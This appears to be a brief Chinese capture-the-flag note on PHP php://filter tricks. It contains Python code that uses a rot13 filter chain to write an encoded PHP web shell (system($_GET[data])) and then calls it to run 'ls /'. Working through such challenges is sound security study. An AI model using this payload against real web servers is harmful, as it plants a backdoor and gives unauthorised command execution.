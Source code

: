 tags:: CTF/伪协议

- # 思路
	- 官方题解新姿势： ((64673efa-c544-4ad7-9b9b-920b148d0b26))
	- 其他思路：可以使用zlib压缩，然后string.tolower破坏字节流，然后再解压
- # payload生成
	- ```python
	  filename = random_chars()[:5] + ".php"
	  r = base_get(url, params = {
	    "content": "php://filter/" + enc_dec.full_urlencode("string.rot13") + "|" + enc_dec.urldecode("%3C%3Fcuc%0Aflfgrz%28%24_TRG%5Bqngn%5D%29%3B%0A%3F%3E") + "/resource=" + filename
	  }, acceptable_code=None)
	  - r = base_get(url + "sandbox/f9e1016a5cec370aae6a18d438dabfa5/" + filename, params = {
	    "data": "ls /"
	  }, acceptable_code=[200, 500])
	  print(r.status_code)
	  print(r.text)
	  ```